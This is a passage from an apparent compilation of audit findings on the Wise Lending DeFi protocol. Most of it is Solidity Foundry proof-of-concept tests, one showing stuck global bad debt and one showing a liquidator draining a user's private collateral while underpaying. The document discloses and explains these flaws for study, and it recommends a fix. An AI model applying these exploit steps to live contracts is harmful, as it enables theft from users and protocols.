            uint256 collateral = SECURITY_INSTANCE.overallETHCollateralsBare(nftIdLiquidatee);
            uint256 debt = SECURITY_INSTANCE.overallETHBorrowBare(nftIdLiquidatee);
            assertEq(collateral, debt); // LTV == 100% exactly
            // --- global bad debt is unchanged, while user bad debt is reset to 0 --- //
            uint256 newTotalBadDebt = FEE_MANAGER_INSTANCE.totalBadDebtETH();
            uint256 newUserBadDebt = FEE_MANAGER_INSTANCE.badDebtPosition(nftIdLiquidatee);
            assertEq(newUserBadDebt, 0); // user bad debt reset to 0
            assertGt(newTotalBadDebt, 0); // global bad debt stays the same (fake debt)
            // --- attempts to pay back fake global debt result in a noop, totalBadDebtETH still > 0 --- //
            uint256 paybackShares = _tryToPayBackGlobalDebt();

            assertEq(LENDING_INSTANCE.userBorrowShares(nftIdLiquidatee, address(MOCK_WETH)), paybackShares); // no shares were paid back
            // --- protocol fees can no longer be claimed since totalBadDebtETH will remain > 0 --- //
            vm.expectRevert(bytes4(keccak256("ExistingBadDebt()")));
            FEE_MANAGER_INSTANCE.claimFeesBeneficial(address(0), 0);
        }
        function _setUpScenario() internal {
            // lender supplies ETH
            vm.startPrank(lender);
            nftIdLiquidator = POSITION_NFTS_INSTANCE.mintPosition();
            LENDING_INSTANCE.depositExactAmountETH{value: depositAmountETH}(nftIdLiquidator);
            vm.stopPrank();
            // borrower supplies collateral token and borrows ETH
            vm.startPrank(borrower);
            MOCK_ERC20_2.approve(address(LENDING_INSTANCE), depositAmountToken * 2);
            nftIdLiquidatee = POSITION_NFTS_INSTANCE.mintPosition();

            LENDING_INSTANCE.solelyDeposit( // supply collateral
                nftIdLiquidatee,
                address(MOCK_ERC20_2),
                depositAmountToken
            );
            debtShares = LENDING_INSTANCE.borrowExactAmountETH(nftIdLiquidatee, borrowAmount); // borrow ETH
            vm.stopPrank();
        }
        function _marketCrashCreatesBadDebt() internal {
            // shortfall event/crash occurs
            vm.prank(MOCK_DEPLOYER);
            MOCK_CHAINLINK_2.setValue(0.3 ether);
            // borrower gets partially liquidated
            vm.startPrank(lender);
            MOCK_WETH.approve(address(LENDING_INSTANCE), depositAmountETH);
            LENDING_INSTANCE.liquidatePartiallyFromTokens(
                nftIdLiquidatee,
                nftIdLiquidator,
                address(MOCK_WETH),
                address(MOCK_ERC20_2),
                debtShares * 2e16 / 1e18 + 1
            );
            vm.stopPrank();
            // global and user bad debt is increased
            uint256 totalBadDebt = FEE_MANAGER_INSTANCE.totalBadDebtETH();
            uint256 userBadDebt = FEE_MANAGER_INSTANCE.badDebtPosition(nftIdLiquidatee);
            assertGt(totalBadDebt, 0);
            assertGt(userBadDebt, 0);
            assertEq(totalBadDebt, userBadDebt); // user bad debt and global bad debt are the same
        }
        function _tryToPayBackGlobalDebt() internal returns (uint256 paybackShares) {
            // lender attempts to pay back global debt
            paybackShares = LENDING_INSTANCE.userBorrowShares(nftIdLiquidatee, address(MOCK_WETH));
            uint256 paybackAmount = LENDING_INSTANCE.paybackAmount(address(MOCK_WETH), paybackShares);
            vm.startPrank(lender);
            MOCK_WETH.approve(address(FEE_MANAGER_INSTANCE), paybackAmount);

            FEE_MANAGER_INSTANCE.paybackBadDebtNoReward(
                nftIdLiquidatee,
                address(MOCK_WETH),
                paybackShares
            );
            vm.stopPrank();
            // global bad debt and user bad debt updated
            uint256 finalTotalBadDebt = FEE_MANAGER_INSTANCE.totalBadDebtETH();
            uint256 finalUserBadDebt = FEE_MANAGER_INSTANCE.badDebtPosition(nftIdLiquidatee);
            assertEq(finalUserBadDebt, 0); // user has no more bad debt, all paid off
            assertGt(finalTotalBadDebt, 0); // protocol still thinks there is bad debt
        }
    }

  ```

  </details>

## 7. [High] Liquidators can pay less than required to completely liquidate the private collateral balance of an uncollateralized position

### Check uncollateralized position

- Summary: users can choose to collateralize or uncollateralize their positions. During liquidation, the liquidator's receive amount is calculated as a percentage of the full collateral, which includes the user's private deposit. However, the reduction of the user's normal balance doesn't account for whether the position is uncollateralized, so that the liquidator can drain the user's private collateral while paying for only a portion of the liquidation, resulting in financial losses for the user and an increase in bad debt for the protocol.

- Impact & Recommendation: Move the uncollateralized position check to an earlier stage in the `calculateReceiveAmount()` function to prevent incorrect deductions from the normal balance during liquidation.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-02-wise-lending#h-04-liquidators-can-pay-less-than-required-to-completely-liquidate-the-private-collateral-balance-of-an-uncollateralized-position) & [Report](https://code4rena.com/reports/2024-02-wise-lending)

  <details><summary>POC</summary>

  ```solidity
    pragma solidity =0.8.24;
    import "forge-std/Test.sol";
    import {WiseLending, PoolManager} from "./WiseLending.sol";
    import {TesterWiseOracleHub} from "./WiseOracleHub/TesterWiseOracleHub.sol";
    import {PositionNFTs} from "./PositionNFTs.sol";
    import {WiseSecurity} from "./WiseSecurity/WiseSecurity.sol";
    import {AaveHub} from "./WrapperHub/AaveHub.sol";
    import {Token} from "./Token.sol";
    import {TesterChainlink} from "./TesterChainlink.sol";
    import {IPriceFeed} from "./InterfaceHub/IPriceFeed.sol";
    import {IERC20} from "./InterfaceHub/IERC20.sol";
    import {IWiseLending} from "./InterfaceHub/IWiseLending.sol";
    import {ContractLibrary} from "./PowerFarms/PendlePowerFarmController/ContractLibrary.sol";
    contract WiseLendingTest is Test, ContractLibrary {
    WiseLending wiseLending;
    TesterWiseOracleHub oracleHub;
    PositionNFTs positionNFTs;
    WiseSecurity wiseSecurity;
    AaveHub aaveHub;
    TesterChainlink wbtcOracle;
    // users/admin
    address alice = address(1);
    address bob = address(2);
    address charles = address(3);
    address lendingMaster;
    //tokens
    address wbtc;
    function setUp() public {
        lendingMaster = address(11);
        vm.startPrank(lendingMaster);
        address ETH_PRICE_FEED = 0x5f4eC3Df9cbd43714FE2740f5E3616155c5b8419;
        address UNISWAP_V3_FACTORY = 0x1F98431c8aD98523631AE4a59f267346ea31F984;
        address AAVE_ADDRESS = 0x87870Bca3F3fD6335C3F4ce8392D69350B4fA4E2;

        // deploy oracle hub
        oracleHub = new TesterWiseOracleHub(
        WETH,
        ETH_PRICE_FEED,
        UNISWAP_V3_FACTORY
        );
        oracleHub.setHeartBeat(
        oracleHub.ETH_USD_PLACEHOLDER(), // set USD/ETH feed heartbeat
        1
        );
        // deploy position NFT
        positionNFTs = new PositionNFTs(
            "PositionsNFTs",
            "POSNFTS",
            "app.wisetoken.net/json-data/nft-data/"
        );
        // deploy Wiselending contract
        wiseLending = new WiseLending(
        lendingMaster,
        address(oracleHub),
        address(positionNFTs)
        );
        // deploy AaveHub
        aaveHub = new AaveHub(
        lendingMaster,
        AAVE_ADDRESS,
        address(wiseLending)
        );

        // deploy Wisesecurity contract
        wiseSecurity = new WiseSecurity(
        lendingMaster,
        address(wiseLending),
        address(aaveHub)
        );
        wiseLending.setSecurity(address(wiseSecurity));
        // set labels
        vm.label(address(wiseLending), "WiseLending");
        vm.label(address(positionNFTs), "PositionNFTs");
        vm.label(address(oracleHub), "OracleHub");
        vm.label(address(wiseSecurity), "WiseSecurity");
        vm.label(alice, "Alice");
        vm.label(bob, "Bob");
        vm.label(charles, "Charles");
        vm.label(wbtc, "WBTC");
        vm.label(WETH, "WETH");
        // create tokens, create TestChainlink oracle, add to oracleHub
        (wbtc, wbtcOracle) = _setupToken(18, 17 ether);
        oracleHub.setHeartBeat(wbtc, 1);
        wbtcOracle.setRoundData(0, block.timestamp -1);
        // setup WETH on oracle hub
        oracleHub.setHeartBeat(WETH, 60 minutes);
        oracleHub.addOracle(WETH, IPriceFeed(ETH_PRICE_FEED), new address[](0));

        // create pools
        wiseLending.createPool(
        PoolManager.CreatePool({
            allowBorrow: true,
            poolToken: wbtc, // btc
            poolMulFactor: 17500000000000000,
            poolCollFactor: 805000000000000000,
            maxDepositAmount: 1800000000000000000000000
        })
        );
        wiseLending.createPool(
        PoolManager.CreatePool({
            allowBorrow: true,
            poolToken: WETH, // btc
            poolMulFactor: 17500000000000000,
            poolCollFactor: 805000000000000000,
            maxDepositAmount: 1800000000000000000000000
        })
        );
    }
    function _setupToken(uint decimals, uint value) internal returns (address token, TesterChainlink oracle) {
        Token _token = new Token(uint8(decimals), alice); // deploy token
        TesterChainlink _oracle = new TesterChainlink( // deploy oracle
        value, 18
        );
        oracleHub.addOracle( // add oracle to oracle hub
        address(_token),
        IPriceFeed(address(_oracle)),
        new address[](0)
        );
        return (address(_token), _oracle);
    }
    function testStealPureBalance() public {
        // deposit WETH in private and public balances for Alice's NFT
        vm.startPrank(alice);
        deal(WETH, alice, 100 ether);
        IERC20(WETH).approve(address(wiseLending), 100 ether);
        uint aliceNft = positionNFTs.reservePosition();
        wiseLending.depositExactAmount(aliceNft, WETH, 50 ether);
        wiseLending.solelyDeposit(aliceNft, WETH, 50 ether);

        // deposit for Bob's NFT to provide WBTC liquidity
        vm.startPrank(bob);
        deal(wbtc, bob, 100 ether);
        IERC20(wbtc).approve(address(wiseLending), 100 ether);
        wiseLending.depositExactAmountMint(wbtc, 100 ether);
        // Uncollateralize Alice's NFT position to allow only private(pure)
        // balance to be used as collateral
        vm.startPrank(alice);
        wiseLending.unCollateralizeDeposit(aliceNft, WETH);
        (, , uint lendCollFactor) = wiseLending.lendingPoolData(WETH);
        uint usableCollateral = 50 ether *  lendCollFactor * 95e16 / 1e36 ;

        // alice borrows
        uint borrowable = oracleHub.getTokensFromETH(wbtc, usableCollateral) - 1000;
        uint paybackShares = wiseLending.borrowExactAmount(aliceNft, wbtc, borrowable);
        vm.startPrank(lendingMaster);
        // increase the price of WBTC to make Alice's position liquidatable
        wbtcOracle.setValue(20 ether);

        // let charles get WBTC to liquidate Alice
        vm.startPrank(charles);
        uint charlesNft  = positionNFTs.reservePosition();
        uint paybackAmount = wiseLending.paybackAmount(wbtc, paybackShares);
        deal(wbtc, charles, paybackAmount);
        IERC20(wbtc).approve(address(wiseLending), paybackAmount);
        uint wbtcBalanceBefore = IERC20(wbtc).balanceOf(charles);
        uint wethBalanceBefore = IERC20(WETH).balanceOf(charles);
        // charles liquidates 40% of the shares to ensure he can reduce the pure collateral balance twice
        wiseLending.liquidatePartiallyFromTokens(aliceNft, charlesNft, wbtc, WETH, paybackShares * 40e16/1e18);
        uint wbtcBalanceChange = wbtcBalanceBefore - IERC20(wbtc).balanceOf(charles);
        uint wethBalanceChange = IERC20(WETH).balanceOf(charles) - wethBalanceBefore;

        // The amount of WETH Charles got is 2x the amount of WBTC he paid plus fees (10% of amount paid)
        // WBTC paid plus fees = 110% * wbtcBalanceChange
        // x2WBTCChangePlusFees = 2 * WBTC paid plus fees
        uint x2WBTCChangePlusFees = oracleHub.getTokensInETH(wbtc, 11e17 * wbtcBalanceChange / 1e18) * 2;

        assertApproxEqAbs(wethBalanceChange, x2WBTCChangePlusFees, 200);
    }
    }

  ```

  </details>
